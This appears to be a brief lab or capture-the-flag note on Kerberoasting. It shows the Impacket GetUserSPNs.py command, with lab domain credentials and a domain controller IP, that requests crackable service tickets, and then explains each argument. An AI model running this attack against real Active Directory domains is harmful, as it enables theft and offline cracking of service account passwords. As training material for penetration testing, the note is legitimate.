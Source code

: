 ## Kerberoasting

navigate to where GetUserSPNs.py is located (in my case impacket is installed in `/opt/impacket` so `GetUserSPNs.py` is in `/opt/impacket/exmaples`)

`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.191.100 -request`

controller.local = domain

Machine:Password1 = user:password

dc-ip = domain-controller ip
